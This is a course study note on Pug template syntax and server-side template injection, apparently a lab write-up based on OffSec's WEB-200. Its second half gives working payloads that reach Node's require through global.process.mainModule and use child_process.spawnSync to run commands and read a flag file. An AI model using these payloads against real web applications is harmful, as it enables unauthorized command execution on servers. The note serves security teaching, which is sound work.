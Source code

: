 # Pug

## Syntax

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

{% hint style="info" %}
Pug is commonly integrated with the Express framework in a NodeJS application.
{% endhint %}

Pug is specially-designed to generate HTML files and that is why it has syntax for specifying an HTML tag and tag attributes. Some things to note:

* Pug requires the first word to be the HTML tag that will wrap the following data (e.g. `h1`).
* It allows us to pass tag attributes within parantheses after the tag declaration (`input(type='hidden' name='admin' value='true')`.
* Keywords like `if` and `else` are not treated as HTML tags.
* Puge can execute JavaScript code directly.
  * With the dash character (`-`) the code will be executed by the JavaScript engine and the output won't be displayed (**unbuffered code**) (`- secret = ['❤️','😍', '🤟']`).
  * With the equal sign (`=`) the code will be execute and the output will be displayed (**buffered code**) (`= secret = ['❤️','😍', '🤟']`).

```pug
h1 Hello, #{name}
input(type='hidden' name='admin' value='true')
 
if showSecret
  - secret = ['❤️','😍', '🤟']
  p The secrets are: 
  each val in secret
    p #{val}
  else
    p No secret for you!
```

## SSTI

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Pug requires each line to start with an HTML tag and it uses JavaScript which handles in a non-strict way. Thus, we can use a simple payload such as `#{7*'7'}` and it is executed to `49` and wrapped around `<>`, we can infer that Pug is used (Figure 1).

<figure><img src="../../../.gitbook/assets/web_ssti_pug_1.png" alt=""><figcaption><p>Figure 1: Enumerating a Pug templating engine.</p></figcaption></figure>

Pug is typically rendering on the server-side and since we know that it uses NodeJS, we can use the `child_process.spawnSync` command to execute system commands. The `child_process` module is not available by default, but we can import it via the `require`function, if the latter exists (Figure 2).

```pug
= require
```

<figure><img src="../../../.gitbook/assets/web_ssti_pug_2.png" alt=""><figcaption><p>Figure 2: Checking if direct access to the <code>require</code> function is available.</p></figcaption></figure>

It seems that we don't have direct access to `require` but we can still access it through `global.process.mainModule` (Figure 3).

```pug
= global.process.mainModule.require
```

<figure><img src="../../../.gitbook/assets/web_ssti_pug_3.png" alt=""><figcaption><p>Figure 3: Accessing <code>require</code> via the <code>global</code> object.</p></figcaption></figure>

Next, we can use `require` to import [`child_process`](https://nodejs.org/api/child_process.html#child_processspawnsynccommand-args-options), and use the latter for execute system commands (Figure 4).

```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('ls').stdout
```

<figure><img src="../../../.gitbook/assets/web_ssti_pug_4.png" alt=""><figcaption><p>Figure 4: Executing system commands via the Pug templating engine.</p></figcaption></figure>

To read the flag we need to pass the file as a command argument.

```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('cat',['flag.txt']).stdout
```
